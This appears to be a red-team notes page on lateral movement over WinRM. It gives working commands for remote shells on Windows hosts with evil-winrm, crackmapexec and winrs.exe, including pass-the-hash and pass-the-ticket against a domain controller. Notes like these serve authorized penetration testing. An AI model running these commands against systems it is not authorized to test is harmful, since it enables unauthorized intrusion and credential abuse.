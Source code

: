 ```yaml
---
title: WinRM Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/winrm]].

Establish a connection.

=== "[[notes/tools/evil-winrm]]"
    ~~~ bash
    evil-winrm -u jdoe -p 'passw0rd' -i srv01.corp.local
    evil-winrm -u jdoe -H $nthash -i srv01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec winrm srv01.corp.local -u jdoe -p 'passw0rd' -x 'whoami /all'
    ~~~

=== "builtin"
    ~~~ bat
    winrs.exe -r:srv01.corp.local cmd
    winrs.exe -r:srv01.corp.local "cmd /c hostname && whoami"
    ~~~

[[notes/ad/pass-the-ticket]] to WinRM.

=== "[[notes/tools/evil-winrm]]"
    ~~~ bash
    export KRB5CCNAME=$PWD/jdoeadm.ccache
    cat << EOF | sudo tee /etc/krb5.conf > /dev/null
    [realms]
        corp.local = {
            kdc = DC01.corp.local
            admin_server = corp.local
        }
    EOF
    evil-winrm -r corp.local -i DC01.corp.local
    ~~~

> **Note:** In one instance `evil-winrm` could not use the TGT from `ceritpy auth`, but the TGT from `pkinittools-gettgtpkinit` worked.

Untested tools:

- [awinrm](https://github.com/skelsec/awinrm)
- [pywinrm](https://github.com/diyan/pywinrm)
